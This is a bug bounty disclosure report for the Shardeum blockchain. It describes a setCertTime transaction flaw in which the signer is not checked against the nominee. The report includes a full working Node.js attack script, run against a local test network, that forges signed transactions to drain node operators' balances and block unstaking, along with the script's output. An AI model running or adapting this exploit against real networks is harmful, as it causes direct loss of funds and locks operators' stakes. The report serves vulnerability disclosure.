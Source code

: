 
# Abusing setCertTime Transactions to drain node operators' balance and blocking unstak transaction by renewing stake certificates repeatedly

Submitted on Jul 28th 2024 at 19:37:22 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33750

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Direct loss of funds

## Description


## Description
In shardeum there's a mechnism that can extends the expiration date of a stake certificate by the node that is belong to the particular staking. Such transaction is considered
internal tx type 5, according to enum ( see ref.1)
Athough shardeum check the validity (see ref.2) of the signature, its failure to check the sign owner of the transaction is the same as nominated node's public key let attacker to be able to extends the stake certification on behalf of the victim node.
Since shardeum deduct ( see ref.3) transaction cost from node operator account for transaction. The third party can drain the fund. Also unstaking is not possible (see ref.4) before the stake certificate expired, thus, attacker can renew stake certificate of aparitcular node indefintely to keep the stakes locked.

References: 
1. [enum](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/shardeum/shardeumTypes.ts#L95)
2. [validity]((https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L86-L111))
3. [deduct](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L264-L272)
4. [no possible](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L3747-L3754)







## Proof of Concept
- Launch a network of legit nodes 

- Please stake them

- Once you stake a node, wait for it to go active

- Node has to be staked, (Warning: this will not work on node that can be active without staking)
for some reason the first few node in shardeum go active without staking. Please launch more node than minNode is set in the config, the subsequent node will require staking.

- Grab the public key of the staked node that is in the active list you want to attack its certificate

- Create an empty node project for our attack script

- `mkdir attack`

- `cd attack`

- `npm init -y`

- `npm install axios @shardus/crypto-utils`

- create a file and name `attack.js` and copy paste the source code below

- execute below script `node attack.js [insert victim public key]`, 

(Example: `node attack.js b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e`)

```javascript
const axios = require ('axios');
const crypto = require('@shardus/crypto-utils')

crypto.init("69fa4195670576c0160d660c3be36556ff8d504725be8a59b5a96509e0c994bc")

const { publicKey, secretKey  } = crypto.generateKeypair()

const target = process.argv[2].replace('0x', '')

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms))


const main = async  () => {
    console.log("Grabbing Nodelist ....");
    const res = await axios.get('http://0.0.0.0:4000/nodelist')
    let url = null
    const nodelist = res.data.nodeList
    const randomNode = nodelist[Math.floor(Math.random() * nodelist.length)]

    console.log("Finding victim node in active list ....");
    for(const node of nodelist) {
        if(node.publicKey === target) {
            url = `http://${node.ip}:${node.port}/account/${target}`
        }
    }

    if(!url) throw new ("Victim node is not in active yet")

    const res2 = await axios.get(url)


    const setCertTimeTx = {
        isInternalTx: true,
        internalTXType: 5,
        nominee: "",
        nominator: "",
        duration: 19, 
        timestamp: Date.now() + 1000,
    }


    setCertTimeTx.nominator = res2.data.account.nominator
    setCertTimeTx.nominee = target


    const nominator = setCertTimeTx.nominator.replace('0x', '').padEnd(64, '0')

    const before = await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)

    console.log("Balance and certExp before attack --------------------------------------")
    console.log(before.data);
    

    console.log("Constructing InternalTx setCertTime: ", setCertTimeTx)


    crypto.signObj(setCertTimeTx, secretKey, publicKey)
    console.log("Signing InternalTx setCertTime: ", setCertTimeTx)

    console.log("Firing InternalTx setCertTime ....")
    const res3 = await axios.post(`http://${randomNode.ip}:${randomNode.port}/inject`, setCertTimeTx)

    if(!res3.data.success) throw new Error(res3.data.reason)

    console.log("Waiting 10 sec for transaction to be finalized");
    await sleep(10000)

    const after =await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)
    console.log("Balance and certExp after attack --------------------------------------")
    console.log(after.data);


}

main();
```
- You can observe the balance of nominator / node operator account's balance being deducted 0.01 SHM per each tx and certExp is kept being updated to the future.

Example output -

```
Grabbing Nodelist ....
Finding victim node in active list ....
Balance and certExp before attack --------------------------------------
{
  account: {
    balance: '195700000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722164816023,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
Constructing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052
}
Signing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052,
  sign: {
    owner: 'be08c19a5bfd78484e318282a7d0c731d5572604e543aa25fb7f84d813a5db63',
    sig: '782052921152bad7d81850ee4683e5e68b5efd65fd3275db057f554241586ece42bfb67dc3c0b99e396320f21fc4e257d3615630721eb75c4238cdc1c3c7020e263d3aaae89a2a5949f6367d33efab75f8a83d4d99617d5fdcc09b028181881e'
  }
}
Firing InternalTx setCertTime ....
Waiting 10 sec for transaction to be finalized
Balance and certExp after attack --------------------------------------
{
  account: {
    balance: '195690000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722165276052,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
```
- Observe operator account's balance is drained 0.01 SHM per attack and cerExp is updated per attack. This can be run in loop.

## Impact 
As stated above, this is a direct loss of fund for node operator and blocking the unstaking of a node. Attacker can modify this script to be in loop indefinity to drain the operator account and lock the unstaking forever. This can be targeted to single operator or all the operator in the network simultaneously.